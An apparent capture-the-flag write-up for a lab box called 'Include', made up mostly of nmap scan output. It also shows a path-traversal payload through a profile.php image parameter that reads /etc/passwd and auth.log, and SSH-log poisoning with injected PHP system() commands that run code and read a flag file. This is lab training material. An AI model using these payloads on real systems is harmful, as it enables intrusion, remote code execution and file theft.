




## Include 

### Enumeration

```bash
nmap -sC -sV -oN scan.txt include.thm
```

```bash

# Nmap 7.98 scan initiated Fri Apr 17 17:27:51 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -Pn -vv -oN include.txt 10.48.189.199
Nmap scan report for 10.48.189.199
Host is up, received user-set (0.11s latency).
Scanned at 2026-04-17 17:27:52 +0630 for 60s
Not shown: 992 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:9a:7a:de:0b:e0:4e:1c:05:3d:77:e2:e7:6e:1f:b8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqkvRa3OjESpoiYofgUQcJaodHzg3eoUzl8+456UYgvfGhfhzaNIrlJVXrrTLL87fNJcb1NoIKOzCQE5snGTTQVsf16qhoJ8r3U7H+yNJKruuMholRup9hyglTiQ0AH04mtSXI2tdL0tl56BmjIx5Uf0MWptNoEAsLHUsCaJ7WBhWofiLUCnEDyAO013nmFsBR/e6nfHXmgJxh1D6GctQHjLgE+/0TlEOl6RD8TC7Sm9b+1TyxCGtX6/Oh0ZS4xg06qor8oiZRI7dJZN7VzIWQvjNKiA8iOUgICZMxEqujUCkwgJYCDpJuMXzccTLt6dm4msNTwXNCH1gd22K1k2T4htcYW9mT/c1Fx09sg4H2nBDJFiVLKwmKY6LFvpmLSjiuaDuXpj9lGboIRHzOdjDB/BE5p8Fd+GtLwX17xQttIzUddTaQPIvfi0MwQeLoI4d/LcSmdYScvs9ET8XjOLnBhK8CWPVR2Eye4JK/WCcIJMuPzA4Rbpd17uaPHzbi7KM=
|   256 50:f7:52:20:bc:5b:fc:09:e8:38:97:3b:25:64:b9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5XRus3lLJGBoLbBPcOSVtSijaEjiwg0Ne76RxPo3YPy/nsVIwRw4Hb4TJ5YOjKtk3ColyTll4fN8JmPUnMyUE=
|   256 45:4b:3d:5e:e0:d6:6f:45:20:9e:36:bd:a4:02:a9:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAHxplfIzd0apXAcFWSGoa0t+ZDN7NhHT+VSycZW9VhA
25/tcp    open  smtp     syn-ack ttl 62 Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Issuer: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-11-10T16:53:34
| Not valid after:  2031-11-08T16:53:34
| MD5:     05c8 4559 9811 a54f 9c53 b3ee f6ad f0fd
| SHA-1:   a24d 7a7f 9ac1 8045 5c5f 5b7c 721a 4e21 0599 ed7c
| SHA-256: 3b59 9d8c f354 edd5 b038 ab62 78a5 643f f059 9d57 e493 a662 5acb 8f6a a181 9956
| -----BEGIN CERTIFICATE-----
| MIIDOTCCAiGgAwIBAgIUZOpVp2fjesLBhoJHfQXOvrRFh2AwDQYJKoZIhvcNAQEL
| BQAwNDEyMDAGA1UEAwwpaXAtMTAtMTAtMzEtODIuZXUtd2VzdC0xLmNvbXB1dGUu
| aW50ZXJuYWwwHhcNMjExMTEwMTY1MzM0WhcNMzExMTA4MTY1MzM0WjA0MTIwMAYD
| VQQDDClpcC0xMC0xMC0zMS04Mi5ldS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCGzRe8Ucyrg1ICrmylNf/G
| Dhe8gGUJsnSdBBwzEhofznOXvjGJ/P+5/ScXSNm5Bb632xtPcZ3wSq9xHq8JqZMu
| oXjoyd4U6VK6aV4xjxlwdE33DgsAHXORv9PkMi+NeYDFsJrdRznSV64mc9xhIqSk
| WdnALkBXvNZcTwy6feITP3F4YTGa5ewRNJSVutU4hBY1CfroZxRnff6kkbF0iqQc
| dSHPjK3NeAZnp4iVID8rBuV/fjjOtZ53z1u6cXmQVc2fljvD4GN3TxV4MKbazqOb
| +kEYdT5MiBEIJjQddhagbMWDYPF7McDSS/I3y4KdL1mI40Fjr6sXKOetrFvRZ+cC
| AwEAAaNDMEEwCQYDVR0TBAIwADA0BgNVHREELTArgilpcC0xMC0xMC0zMS04Mi5l
| dS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDANBgkqhkiG9w0BAQsFAAOCAQEArHg4
| zvCqUMzbSvusDU3d4cPDYnh7a7fAdOeVxHWo8/z/gzB8/ojJ8oYtfDV3qdKRhg0m
| pGSG3A2MZvl9u4FYj2tI8sne5HNTGRNg+3DLR/O9lFR90TH4v4piyAJrc29nFmpe
| Mq8I+JOizeSVG9qMSp6s0hDcHGAs111avS5TkEUvL0GybJIIQabOMDJ1e+Mptca+
| iV+Z+rdfirNzw87twkMxEpwTVPf3h5G0EKwE62Ih8cG1Pk/NrZCz5lN5P2b2BwHQ
| wbmbTgiA+hBmWajlHVu7EwEIsnMGrzTgSacVhHd7WsThLlMQwgNIowzUMagIA0yD
| s6SpR/+RIiQzeFiuTw==
|_-----END CERTIFICATE-----
|_smtp-commands: mail.filepath.lab, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
110/tcp   open  pop3     syn-ack ttl 62 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: RESP-CODES SASL TOP STLS AUTH-RESP-CODE UIDL PIPELINING CAPA
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Issuer: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-11-10T16:53:34
| Not valid after:  2031-11-08T16:53:34
| MD5:     05c8 4559 9811 a54f 9c53 b3ee f6ad f0fd
| SHA-1:   a24d 7a7f 9ac1 8045 5c5f 5b7c 721a 4e21 0599 ed7c
| SHA-256: 3b59 9d8c f354 edd5 b038 ab62 78a5 643f f059 9d57 e493 a662 5acb 8f6a a181 9956
| -----BEGIN CERTIFICATE-----
| MIIDOTCCAiGgAwIBAgIUZOpVp2fjesLBhoJHfQXOvrRFh2AwDQYJKoZIhvcNAQEL
| BQAwNDEyMDAGA1UEAwwpaXAtMTAtMTAtMzEtODIuZXUtd2VzdC0xLmNvbXB1dGUu
| aW50ZXJuYWwwHhcNMjExMTEwMTY1MzM0WhcNMzExMTA4MTY1MzM0WjA0MTIwMAYD
| VQQDDClpcC0xMC0xMC0zMS04Mi5ldS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCGzRe8Ucyrg1ICrmylNf/G
| Dhe8gGUJsnSdBBwzEhofznOXvjGJ/P+5/ScXSNm5Bb632xtPcZ3wSq9xHq8JqZMu
| oXjoyd4U6VK6aV4xjxlwdE33DgsAHXORv9PkMi+NeYDFsJrdRznSV64mc9xhIqSk
| WdnALkBXvNZcTwy6feITP3F4YTGa5ewRNJSVutU4hBY1CfroZxRnff6kkbF0iqQc
| dSHPjK3NeAZnp4iVID8rBuV/fjjOtZ53z1u6cXmQVc2fljvD4GN3TxV4MKbazqOb
| +kEYdT5MiBEIJjQddhagbMWDYPF7McDSS/I3y4KdL1mI40Fjr6sXKOetrFvRZ+cC
| AwEAAaNDMEEwCQYDVR0TBAIwADA0BgNVHREELTArgilpcC0xMC0xMC0zMS04Mi5l
| dS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDANBgkqhkiG9w0BAQsFAAOCAQEArHg4
| zvCqUMzbSvusDU3d4cPDYnh7a7fAdOeVxHWo8/z/gzB8/ojJ8oYtfDV3qdKRhg0m
| pGSG3A2MZvl9u4FYj2tI8sne5HNTGRNg+3DLR/O9lFR90TH4v4piyAJrc29nFmpe
| Mq8I+JOizeSVG9qMSp6s0hDcHGAs111avS5TkEUvL0GybJIIQabOMDJ1e+Mptca+
| iV+Z+rdfirNzw87twkMxEpwTVPf3h5G0EKwE62Ih8cG1Pk/NrZCz5lN5P2b2BwHQ
| wbmbTgiA+hBmWajlHVu7EwEIsnMGrzTgSacVhHd7WsThLlMQwgNIowzUMagIA0yD
| s6SpR/+RIiQzeFiuTw==
|_-----END CERTIFICATE-----
143/tcp   open  imap     syn-ack ttl 62 Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Issuer: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-11-10T16:53:34
| Not valid after:  2031-11-08T16:53:34
| MD5:     05c8 4559 9811 a54f 9c53 b3ee f6ad f0fd
| SHA-1:   a24d 7a7f 9ac1 8045 5c5f 5b7c 721a 4e21 0599 ed7c
| SHA-256: 3b59 9d8c f354 edd5 b038 ab62 78a5 643f f059 9d57 e493 a662 5acb 8f6a a181 9956
| -----BEGIN CERTIFICATE-----
| MIIDOTCCAiGgAwIBAgIUZOpVp2fjesLBhoJHfQXOvrRFh2AwDQYJKoZIhvcNAQEL
| BQAwNDEyMDAGA1UEAwwpaXAtMTAtMTAtMzEtODIuZXUtd2VzdC0xLmNvbXB1dGUu
| aW50ZXJuYWwwHhcNMjExMTEwMTY1MzM0WhcNMzExMTA4MTY1MzM0WjA0MTIwMAYD
| VQQDDClpcC0xMC0xMC0zMS04Mi5ldS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCGzRe8Ucyrg1ICrmylNf/G
| Dhe8gGUJsnSdBBwzEhofznOXvjGJ/P+5/ScXSNm5Bb632xtPcZ3wSq9xHq8JqZMu
| oXjoyd4U6VK6aV4xjxlwdE33DgsAHXORv9PkMi+NeYDFsJrdRznSV64mc9xhIqSk
| WdnALkBXvNZcTwy6feITP3F4YTGa5ewRNJSVutU4hBY1CfroZxRnff6kkbF0iqQc
| dSHPjK3NeAZnp4iVID8rBuV/fjjOtZ53z1u6cXmQVc2fljvD4GN3TxV4MKbazqOb
| +kEYdT5MiBEIJjQddhagbMWDYPF7McDSS/I3y4KdL1mI40Fjr6sXKOetrFvRZ+cC
| AwEAAaNDMEEwCQYDVR0TBAIwADA0BgNVHREELTArgilpcC0xMC0xMC0zMS04Mi5l
| dS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDANBgkqhkiG9w0BAQsFAAOCAQEArHg4
| zvCqUMzbSvusDU3d4cPDYnh7a7fAdOeVxHWo8/z/gzB8/ojJ8oYtfDV3qdKRhg0m
| pGSG3A2MZvl9u4FYj2tI8sne5HNTGRNg+3DLR/O9lFR90TH4v4piyAJrc29nFmpe
| Mq8I+JOizeSVG9qMSp6s0hDcHGAs111avS5TkEUvL0GybJIIQabOMDJ1e+Mptca+
| iV+Z+rdfirNzw87twkMxEpwTVPf3h5G0EKwE62Ih8cG1Pk/NrZCz5lN5P2b2BwHQ
| wbmbTgiA+hBmWajlHVu7EwEIsnMGrzTgSacVhHd7WsThLlMQwgNIowzUMagIA0yD
| s6SpR/+RIiQzeFiuTw==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: LITERAL+ more have listed LOGIN-REFERRALS post-login ID OK SASL-IR IMAP4rev1 capabilities IDLE Pre-login STARTTLS ENABLE LOGINDISABLEDA0001
993/tcp   open  ssl/imap syn-ack ttl 62 Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Issuer: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-11-10T16:53:34
| Not valid after:  2031-11-08T16:53:34
| MD5:     05c8 4559 9811 a54f 9c53 b3ee f6ad f0fd
| SHA-1:   a24d 7a7f 9ac1 8045 5c5f 5b7c 721a 4e21 0599 ed7c
| SHA-256: 3b59 9d8c f354 edd5 b038 ab62 78a5 643f f059 9d57 e493 a662 5acb 8f6a a181 9956
| -----BEGIN CERTIFICATE-----
| MIIDOTCCAiGgAwIBAgIUZOpVp2fjesLBhoJHfQXOvrRFh2AwDQYJKoZIhvcNAQEL
| BQAwNDEyMDAGA1UEAwwpaXAtMTAtMTAtMzEtODIuZXUtd2VzdC0xLmNvbXB1dGUu
| aW50ZXJuYWwwHhcNMjExMTEwMTY1MzM0WhcNMzExMTA4MTY1MzM0WjA0MTIwMAYD
| VQQDDClpcC0xMC0xMC0zMS04Mi5ldS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCGzRe8Ucyrg1ICrmylNf/G
| Dhe8gGUJsnSdBBwzEhofznOXvjGJ/P+5/ScXSNm5Bb632xtPcZ3wSq9xHq8JqZMu
| oXjoyd4U6VK6aV4xjxlwdE33DgsAHXORv9PkMi+NeYDFsJrdRznSV64mc9xhIqSk
| WdnALkBXvNZcTwy6feITP3F4YTGa5ewRNJSVutU4hBY1CfroZxRnff6kkbF0iqQc
| dSHPjK3NeAZnp4iVID8rBuV/fjjOtZ53z1u6cXmQVc2fljvD4GN3TxV4MKbazqOb
| +kEYdT5MiBEIJjQddhagbMWDYPF7McDSS/I3y4KdL1mI40Fjr6sXKOetrFvRZ+cC
| AwEAAaNDMEEwCQYDVR0TBAIwADA0BgNVHREELTArgilpcC0xMC0xMC0zMS04Mi5l
| dS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDANBgkqhkiG9w0BAQsFAAOCAQEArHg4
| zvCqUMzbSvusDU3d4cPDYnh7a7fAdOeVxHWo8/z/gzB8/ojJ8oYtfDV3qdKRhg0m
| pGSG3A2MZvl9u4FYj2tI8sne5HNTGRNg+3DLR/O9lFR90TH4v4piyAJrc29nFmpe
| Mq8I+JOizeSVG9qMSp6s0hDcHGAs111avS5TkEUvL0GybJIIQabOMDJ1e+Mptca+
| iV+Z+rdfirNzw87twkMxEpwTVPf3h5G0EKwE62Ih8cG1Pk/NrZCz5lN5P2b2BwHQ
| wbmbTgiA+hBmWajlHVu7EwEIsnMGrzTgSacVhHd7WsThLlMQwgNIowzUMagIA0yD
| s6SpR/+RIiQzeFiuTw==
|_-----END CERTIFICATE-----
|_imap-capabilities: LITERAL+ more have listed LOGIN-REFERRALS post-login ID OK SASL-IR IMAP4rev1 capabilities IDLE Pre-login AUTH=PLAIN ENABLE AUTH=LOGINA0001
|_ssl-date: TLS randomness does not represent time
995/tcp   open  pop3s?   syn-ack ttl 62
|_pop3-capabilities: RESP-CODES SASL(PLAIN LOGIN) TOP USER AUTH-RESP-CODE UIDL PIPELINING CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Subject Alternative Name: DNS:ip-10-10-31-82.eu-west-1.compute.internal
| Issuer: commonName=ip-10-10-31-82.eu-west-1.compute.internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-11-10T16:53:34
| Not valid after:  2031-11-08T16:53:34
| MD5:     05c8 4559 9811 a54f 9c53 b3ee f6ad f0fd
| SHA-1:   a24d 7a7f 9ac1 8045 5c5f 5b7c 721a 4e21 0599 ed7c
| SHA-256: 3b59 9d8c f354 edd5 b038 ab62 78a5 643f f059 9d57 e493 a662 5acb 8f6a a181 9956
| -----BEGIN CERTIFICATE-----
| MIIDOTCCAiGgAwIBAgIUZOpVp2fjesLBhoJHfQXOvrRFh2AwDQYJKoZIhvcNAQEL
| BQAwNDEyMDAGA1UEAwwpaXAtMTAtMTAtMzEtODIuZXUtd2VzdC0xLmNvbXB1dGUu
| aW50ZXJuYWwwHhcNMjExMTEwMTY1MzM0WhcNMzExMTA4MTY1MzM0WjA0MTIwMAYD
| VQQDDClpcC0xMC0xMC0zMS04Mi5ldS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANCGzRe8Ucyrg1ICrmylNf/G
| Dhe8gGUJsnSdBBwzEhofznOXvjGJ/P+5/ScXSNm5Bb632xtPcZ3wSq9xHq8JqZMu
| oXjoyd4U6VK6aV4xjxlwdE33DgsAHXORv9PkMi+NeYDFsJrdRznSV64mc9xhIqSk
| WdnALkBXvNZcTwy6feITP3F4YTGa5ewRNJSVutU4hBY1CfroZxRnff6kkbF0iqQc
| dSHPjK3NeAZnp4iVID8rBuV/fjjOtZ53z1u6cXmQVc2fljvD4GN3TxV4MKbazqOb
| +kEYdT5MiBEIJjQddhagbMWDYPF7McDSS/I3y4KdL1mI40Fjr6sXKOetrFvRZ+cC
| AwEAAaNDMEEwCQYDVR0TBAIwADA0BgNVHREELTArgilpcC0xMC0xMC0zMS04Mi5l
| dS13ZXN0LTEuY29tcHV0ZS5pbnRlcm5hbDANBgkqhkiG9w0BAQsFAAOCAQEArHg4
| zvCqUMzbSvusDU3d4cPDYnh7a7fAdOeVxHWo8/z/gzB8/ojJ8oYtfDV3qdKRhg0m
| pGSG3A2MZvl9u4FYj2tI8sne5HNTGRNg+3DLR/O9lFR90TH4v4piyAJrc29nFmpe
| Mq8I+JOizeSVG9qMSp6s0hDcHGAs111avS5TkEUvL0GybJIIQabOMDJ1e+Mptca+
| iV+Z+rdfirNzw87twkMxEpwTVPf3h5G0EKwE62Ih8cG1Pk/NrZCz5lN5P2b2BwHQ
| wbmbTgiA+hBmWajlHVu7EwEIsnMGrzTgSacVhHd7WsThLlMQwgNIowzUMagIA0yD
| s6SpR/+RIiQzeFiuTw==
|_-----END CERTIFICATE-----
4000/tcp  open  http     syn-ack ttl 62 Node.js (Express middleware)
|_http-title: Sign In
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
50000/tcp open  http     syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: System Monitoring Portal
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 17 17:28:52 2026 -- 1 IP address (1 host up) scanned in 61.34 seconds
```
### HTTP-4000 & 50000
```bash
http://include.thm:4000
```


```bash
http://include.thm:50000
```


### http://10.48.167.80:50000/profile.php?img=....//....//....//....//....//....//....//....//....//etc/passwd


### http://10.48.167.80:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/auth.log


```bash
 ┌──(mxjoi㉿outsider)-[~/CTF]
└─$ nc include.thm 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
hello inoafuas
```

```bash
┌──(mxjoi㉿outsider)-[~/CTF]
└─$ nc include.thm 22    
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system("id"); ?>
```

```bash
──(mxjoi㉿outsider)-[~/CTF]
└─$ nc 10.48.167.80 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system("ls /var/www/html"); ?>
```

```bash
┌──(mxjoi㉿outsider)-[~/CTF]
└─$ nc 10.48.167.80 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system("cat /var/www/html/505eb0fb8a9f32853b4d955e1f9123ea.txt"); ?>
```

